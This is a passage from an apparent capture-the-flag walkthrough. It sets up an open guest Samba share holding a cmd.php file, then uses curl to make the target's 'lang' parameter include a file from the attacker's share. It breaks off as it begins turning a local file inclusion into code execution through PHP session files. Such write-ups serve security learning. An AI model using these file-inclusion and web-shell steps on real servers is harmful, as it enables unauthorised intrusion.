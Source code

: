 

    [SHARE]
    path = /srv/samba/
    browseable = yes
    read only = no
    create mask = 777
    guest ok = yes
    force user = nobody
    force group = nogroup



The started the service:



    root@kali# service smbd restart
    root@kali# service nmbd restart



Permissions are important here. It's important that the Samba process
(running as nobody) can read the file:



    root@kali# find srv/ -ls
      2359297      4 drwxr-xr-x   4 root     root         4096 srv/
      2359299      4 drwxrwxrwx   2 nobody   nogroup      4096 srv/samba
      2359300      4 -rwxrwxrwx   1 nobody   nogroup        35 srv/samba/cmd.php
      2359301     48 -rwxrwxrwx   1 root     root        45272 srv/samba/test.txt



`text.txt` is just a text file with the string `0xdf` in it. Now I can
include it and see the results:



    root@kali# curl -s -G 'http://10.10.10.151/blog/' --data-urlencode 'lang=\\10.10.14.6\share\test.txt' | sed -n '/<\.md>/,/<\/body>/p'
    <.md>
    0xdf
    </body>
    <.md>



### path 1 - LFI

#### RCE

Having found the LFI above, I start to think about where I could write a
file on disk. One place is the PHP session file for the `/user/` site.
The [default location on
Windows](https://stackoverflow.com/questions/37603993/php-sessions-default-save-location-for-windows)
is `C:\windows\temp\`. I get my session id from Burp, and see, it's
there:


